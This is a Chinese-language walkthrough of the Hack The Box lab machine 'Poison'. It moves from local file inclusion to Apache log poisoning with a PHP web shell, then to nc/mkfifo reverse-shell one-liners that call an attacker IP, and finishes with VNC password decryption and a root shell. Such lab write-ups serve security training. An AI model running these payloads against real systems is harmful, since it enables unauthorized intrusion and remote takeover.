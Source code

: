 # posion

**posion是hackthebox上难度中等的一台靶机**



- namp扫描端口
- 先扫描有哪些个端口是开放的，在查看开放了哪些服务

![image-20211110224501127](http://cdn.mxrblog.cn/image-20211110224501127.png)

![image-20211110224441664](http://cdn.mxrblog.cn/image-20211110224441664.png)

- 收集到的信息

```
22  ssh
80  http
OpenSSH 7.2
Apache 2.4.29
PHP 5.6.32

```

- 登录网站界面

![image-20211111100453932](http://cdn.mxrblog.cn/image-20211111100453932.png)

- 可能具有本地包含漏洞，注意检查这几个php页面的内容，在listfiles.php发现了有意思的漏洞

![image-20211111101648715](http://cdn.mxrblog.cn/image-20211111101648715.png)

- 我们试着打开这个目录文件，里面说这是一段被编码了13次的代码，我们要做的显然就是将这段代码解码13次，还原它

![image-20211111101833300](http://cdn.mxrblog.cn/image-20211111101833300.png)

- 解码所使用到的shell脚本

```
data=$(cat pwd.b64); for i in $(seq 1 13); do data=$(echo $data | tr -d ' ' | base64 -d); done; echo $data
```

- 得到密码

```
Charix!2#4%6&8(0
```

![image-20211111105551951](http://cdn.mxrblog.cn/image-20211111105551951.png)

- 查看网站是否有文件包含漏洞
- 然后我们发现了用户名为Charix的用户

![image-20211111104344440](http://cdn.mxrblog.cn/image-20211111104344440.png)

- 使用ssh登录成功



#### 第二种方式

- 使用日志中毒获取shell

- **(日志中毒)[https://www.hackingarticles.in/apache-log-poisoning-through-lfi/]**
  - 日志中毒背后的想法是将一些 php 放入日志中，然后将它们加载到 php 将执行的位置。如果我们查看访问日志，我们会看到每次访问该站点时，都会有一个条目，其中包含所访问的 url 和浏览器访问的用户代理字符串。
  - 最简单的情况是更改我们的用户代理字符串，使其包含 php，然后将该日志文件包含在我们的 LFI 中。我们也可以毒化 url 字段，但访问类似`http://10.10.10.84/browse.php?not_an_arg=[php code]`. 只要我们能把我们的php写入日志，我们就成功了。
- 当我们输错内容时，会显示

![image-20211111114119196](http://cdn.mxrblog.cn/image-20211111114119196.png)

- 通过上述信息，寻找到配置文件/usr/local/etc/apache24/httpd.conf，并从配置文件中找到相对应的日志文件
- 可以使用Ctrl+F搜索CustomLog和ErrorLog

![image-20211111114403791](http://cdn.mxrblog.cn/image-20211111114403791.png)



```
ErrorLog "/var/log/httpd-error.log"
CustomLog "/var/log/httpd-access.log" combined
```

- 打开burpsuit，获取日志文件页面页面并对其修改
- 由于用户代理(User-Agent)这一部分是由我们用户决定的，所以我们可以将这一部分换成我们的漏洞代码

```
<?php system($_GET['c']); ?>
```

![image-20211111211640014](http://cdn.mxrblog.cn/image-20211111211640014.png)

![image-20211111212005822](http://cdn.mxrblog.cn/image-20211111212005822.png)

- 通过修改参数c的值，我们可以在网页得到不同的结果

![image-20211111212233416](http://cdn.mxrblog.cn/image-20211111212233416.png)

- 于是将反弹shell传值给c，第一次使用代码`nc -e /bin/bash 10.10.14.27 4444` ,结果只是连接上了靶机，但是未能反弹shell，这就说明了靶机的nc版本不支持-e 参数，于是使用nc的另一种反弹shell方式，代码：

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

- 进行url编码后传参给c参数

```
view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.14.27%204444%20%3E/tmp/f
```

- 结果

![image-20211111213554036](http://cdn.mxrblog.cn/image-20211111213554036.png)

- 靶机上

![image-20211111213627543](http://cdn.mxrblog.cn/image-20211111213627543.png)





- 无论如何，我们都得到了shell

![image-20211111124342759](http://cdn.mxrblog.cn/image-20211111124342759.png)

- 可以看到有一个压缩的文件，在靶机上无法进行解密，我们将它上传到kali中进行解压在传回原来的机器，解压时密码为用户的charix的密码
- 但是解压后的文件是被加密的，可能又是一种密码

![image-20211111222807663](http://cdn.mxrblog.cn/image-20211111222807663.png)

- 由于靶机的系统是FreeBSD，无法使用LinEnum枚举脚本，于是进行手动枚举

- 枚举进程

`ps -aux | grep root`

![image-20211111223205945](http://cdn.mxrblog.cn/image-20211111223205945.png)

- 有个root用户正在运行的进程，VNC，该进程是是进行远程访问的，查看详细过程

```
ps -auwwx | grep vnc
```

![image-20211111223935417](http://cdn.mxrblog.cn/image-20211111223935417.png)



- 使用netstat进行验证,可以发现确实有vnc的活动端口

![image-20211111224747990](http://cdn.mxrblog.cn/image-20211111224747990.png)

- 由于vnc是图形化界面，无法在终端下对靶机进行直接操作，需要进行端口转发
- 在kali上操作

```
# ssh -L [local-port]:[remote-ip]:[remote-port]
ssh -L 4445:10.10.14.27:5901 charix@10.10.10.84
```

- 使用netstat查看是否成功转发

![image-20211111231917812](http://cdn.mxrblog.cn/image-20211111231917812.png)



- 既然设置了端口转发，让我们连接到攻击机上的 VNC

- 需要密码，密码就是我们解压得到的那个secret文件

  - 解码 VNC 密码

    文件中的 VNC 密码是经过混淆存储的，但它们可以被破解。有一堆脚本可以返回纯文本。我们将使用[这个](https://github.com/trinitronx/vncpasswd.py)，运行 python 并`-d`用于解密，并将`-f secret`其指向我们的文件。

    ```
    root@kali:~/hackthebox/poison-10.10.10.84# python /opt/vncpasswd.py/vncpasswd.py -d -f secret
    Cannot read from Windows Registry on a Linux system
    Cannot write to Windows Registry on a Linux system
    Decrypted Bin Pass= 'VNCP@$$!'
    Decrypted Hex Pass= '564e435040242421'
    ```

```
vncviewer 127.0.0.1:4445 -passwd secret
```

![image-20211111232459425](http://cdn.mxrblog.cn/image-20211111232459425.png)

- 得到root shell

![image-20211111232722013](http://cdn.mxrblog.cn/image-20211111232722013.png)


